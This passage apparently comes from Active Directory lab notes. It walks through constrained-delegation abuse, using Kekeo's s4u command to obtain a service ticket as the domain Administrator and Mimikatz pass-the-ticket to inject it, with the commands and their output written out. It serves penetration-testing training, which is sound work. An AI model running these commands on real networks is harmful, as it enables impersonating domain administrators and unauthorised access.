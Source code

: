 ### Using s4u from Kekeo to Request a TGS

Now, let’s use this TGT and request a TGS. Note that we are requesting a TGS to access `cifs/dcorp-mssql` as the domain administrator - `Administrator`.

#### Request a TGS:
```powershell
kekeo # tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
 > Ticket in file 'TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi'
```

**Note:**
- We must have a TGT.
- We are authenticating only to the service listed in `msDS-AllowedToDelegateTo`.
- There is no need to connect or trick a domain admin to connect to this service; we can do it without waiting.

### Inject the Ticket in Current Session

Next, inject the ticket into the current session to use it.

#### Inject the Ticket:
```powershell
PS C:\AD\Tools\kekeo\x64> . ..\..\Invoke-Mimikatz.ps1
PS C:\AD\Tools\kekeo\x64> Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'

mimikatz(powershell) # kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi
 * File: 'TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi': OK

PS C:\AD\Tools\kekeo\x64>
```

### Verification

```powershell
PS C:\AD\Tools\kekeo\x64> klist
```

**Note:** If I run other protocols like `Enter-PSSession` for the `dcorp-mssql` server, we will get access denied. This is a risk associated with constrained delegation. 

Remember that although we provide access to just one service, there is no need to wait or trick a domain admin to connect to the attacker's machine.
```
```
Here’s a table comparing **Constrained Delegation** and **Unconstrained Delegation** in Active Directory:
